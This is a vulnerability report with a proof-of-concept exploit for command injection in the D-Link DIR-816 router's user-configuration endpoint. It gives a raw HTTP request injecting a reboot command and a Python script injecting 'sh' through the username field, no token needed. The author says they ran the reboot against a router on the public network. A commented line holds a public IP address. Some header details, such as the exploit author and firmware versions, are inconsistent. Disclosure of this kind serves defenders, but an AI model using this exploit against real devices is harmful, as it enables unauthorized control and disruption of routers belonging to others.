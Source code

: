 Vender ：D-Link

Firmware version:1.10 B05

Exploit Author: http://www.dlink.com.cn/

Vendor Homepage: http://www.dlink.com.cn/

Hardware Link:http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-816

# report

##### Describe

​	I found some vulnerabilities in the dir-816 750m11ac wireless router ,**Firmware version is**  DIR816_A1_FW101CNB04

​	The HTTP request parameter is used in the handler function of  /goform/form2userconfig.cgi route, which can construct the user name string to delete the user function. This can lead to command injection through shell metacharacters.

​	If the user can configure the router, it may cause unconditional command execution If the user can configure the router, it may cause unconditional command execution.

##### Details

​	goahead Sub_459EF0 ruction in IDA view

![image-20210820151433873](./img/image-20210820151433873.png)

​	Select user account configuration under the maintenance option of router configuration.

![image-20210820151842671](./img/image-20210820151842671.png)

​	 Different from dir-816a2_ FWv1.10CNB05_ R1b011d88210 firmware version this version only needs to close the  command with single quotation marks and then execute our command with a  semicolon ，don't even need to ask for a tokenid

```
POST /goform/form2userconfig.cgi HTTP/1.1
Host: xxxx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 129
Origin: http://xxxx
Connection: close
Referer: http://xxxx/d_userconfig.asp
Cookie: curShow=
Upgrade-Insecure-Requests: 1

username=123';reboot;'&oldpass=123&newpass=123&confpass=123&deluser=Delete&select=s0&hiddenpass=&submit.htm%3Fuserconfig.htm=Send
```

##### POC&&EXP

```python
import requests
import base64
headers={
	"Host":"192.168.33.9",
	"User-Agent":"Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0",
	"Accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
	"Content-Type":"Content-Type",
	"Origin":"http://192.168.33.9",
	"Referer":"http://192.168.33.9/d_userconfig.asp",
	"Cookie":"curShow=",
	"Upgrade-Insecure-Requests":"1"
}
data={
	"username":"123';sh;'",#input Command
	"privilege":"2",
	"oldpass":"123",
	"newpass":"MTIz",
	"confpass":"MTIz",
	"deluser":"\xe5\x88\xa0\xe9\x99\xa4",
	"select":"s0",
	"hiddenpass":"192.168.33.9",
	"submit.htm?userconfig.htm":"Send",
	#"tokenid":"35005211"#Packet capture analysis
}
proxies={
'http':'127.0.0.1:8080',
'https':'127.0.0.1:8080'
}
#url="http://149.28.168.149/goform/form2systime.cgi"
url="http://192.168.33.9/goform/form2userconfig.cgi"
t=requests.post(url,headers=headers,data=data)
print t.text
```

##### TEST

![image-20210820152544416](./img/image-20210820152544416.png)

​	GDB stops at the command we are about to execute

![image-20210820152604249](./img/image-20210820152604249.png)	Successfully executed sh

​	I successfully asked the router on the public network to execute the reboot command

